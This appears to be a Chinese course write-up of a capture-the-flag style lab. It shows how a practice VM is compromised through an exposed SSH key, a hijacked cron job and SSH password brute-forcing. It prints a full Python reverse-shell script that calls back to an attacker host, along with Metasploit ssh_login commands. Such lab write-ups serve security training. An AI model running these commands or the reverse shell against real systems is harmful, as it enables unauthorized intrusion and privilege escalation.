51CTO的网课，本篇通过探测服务器敏感文件获取普通用户SSH秘钥，连接服务器后探测定时任务，替换执行文件为反弹shell脚本提权，最后使用了暴力破解密码进行提权，最终夺取flag。

本篇使用工具nmap、dirb、nikto、metasploit。

<!-- more -->

# 使用命令

## nmap

* 探测靶场开放的服务与服务的版本
``` bash
-- nmap -sV 靶场IP地址
```

* 探测靶场全部信息
``` bash
-- nmap -A -v 靶场IP地址
```

* 探测靶场的操作系统类型与版本
``` bash
-- nmap -O 靶场IP地址
```

## dirb

* 挖掘靶场网站敏感信息

``` bash
dirb 靶场IP地址
```

## nikto

* 挖掘靶场网站敏感信息

``` bash
nikto -host 靶场IP地址
```

## linux

* 基础命令

``` bash
whoami 查看当前用户
id 查看当前用户权限

cat /etc/passwd 查看所有用户的列表
cat /etc/group 查看用户组
find / -user 用户名  查看属于某些用户的文件
```

* 敏感文件目录

``` bash
/tmp 缓冲文件目录

cat /etc/crontab 挖掘其他用户的定时任务
```

## 反弹shell(py)

``` python
#!/usr/bin/python
import os,subprocess,socket

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("攻击机IP地址","攻击机监听端口"))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p = subprocess.call(["/bin/sh","-i"])
```

## 暴力破解ssh登录口令

* cupp生成字典

``` bash
git clone https://github.com/jeanphorn/common-password.git
chmod +x cupp.py
#以交互方式创建字典
./cupp.py -i
```

* metasploit破解ssh密码

``` bash
msfconsole
> use auxiliary/scanner/ssh/ssh_login
> set rhosts 192.168.1.113
> set username hadi
> set pass_file /root/Desktop/common-password/hadi.txt
> set threads 5
> set verbose true
> run
```

* 优化会话显示带用户、目录的命令行界面

``` bash
python -c "import pty;pty.spawn('/bin/bash')"
su - root
```

# 渗透记录

1. nmap扫描靶机IP地址开放端口、系统信息等：

``` bash
nmap -sV 192.168.1.113
nmap -O 192.168.1.113
```





2. 访问http服务，搜集敏感信息，**contact等信息很有可能是ssh登录用户**：



3. dirb扫网站目录，搜集敏感文件目录，nikto命令也可以：

``` bash
dirb http://192.168.1.113
nikto -host 192.168.1.113
```





4. 查看`/files`、`/icons`等目录，找到`VDSoyuAXiO.txt`这个奇怪的文件，打开发现是秘钥：





5. wget下来，改名为id_rsa，并且修改权限为600，大胆猜测这个是首页contact信息`martin`用户的秘钥：

``` bash
wget "http://192.168.1.113/icons/VDSoyuAXiO.txt"
mv VDSoyuAXiO.txt id_rsa
chmod 600 id_rsa
```



6. 先连接靶机，看看能不能登录，不能的话再本地破解密码，这里是直接登陆成功了，另外注意一点，如果做完之前的实验，新实验靶机IP没有变的话，要先清掉已知主机：

``` bash
rm -rf ~/.ssh/known_hosts
ssh -i id_rsa martin@192.168.1.113
```



7. martin用户没有root权限，探测敏感目录`/tmp`、`/etc/crontab`发现jimmy用户的5分钟自动定时任务，但是执行文件不存在：



8. 编写python反弹shell脚本作为执行文件，增加执行权限，同时查找攻击机未在使用的端口作为监听端口：

``` bash
cd /tmp
touch sekurity.py
vi sekurity.py
chmod +x sekurity.py

netstat -pantu
nc -lvp 4444
```

反弹shell脚本:

``` python
#!/usr/bin/python
import os,subprocess,socket

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("攻击机IP地址","攻击机监听端口"))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p = subprocess.call(["/bin/sh","-i"])
```



9. 等五分钟左右，进入shell，查看用户是jimmy，结果也没有权限，获取不到flag：



10. 最后一个hadi用户只能尝试暴力破解，这里使用jeanphorn的common-password，从github上clone下来，交互界面进入：

``` bash
git clone https://github.com/jeanphorn/common-password.git
cd /common-password
chmod +x cupp.py
#以交互方式创建字典
./cupp.py -i
```



11. 编辑密码字典，name填hadi，添加随机数字，其他都不加：



12. 字典生成好了，进msfconsole破解，查看ssh_login模块的参数：

``` bash
msfconsole
> use auxiliary/scanner/ssh/ssh_login
> show options
```



13. 编辑靶机IP、SSH用户名、密码字典、线程等参数：

``` bash
> set rhosts 192.168.1.113
> set username hadi
> set pass_file /root/Desktop/common-password/hadi.txt
> set threads 5
> set verbose true
> run
```



14. 确认参数无误，开始run，等结果：



15. 这个字典竟然没密码，还是生成的简单了，实际上密码是hadi123，直接添加msf里，破解成功是这样显示的：

``` bash
> set password hadi123
> run

>sessions -i 1  #进入编号1的交互session 
```



16. session里交互不是很方便，可以执行下面的python脚本把bash定向到回话中，优化交互界面：

``` bash
python -c "import pty;pty.spawn('/bin/bash')"
```

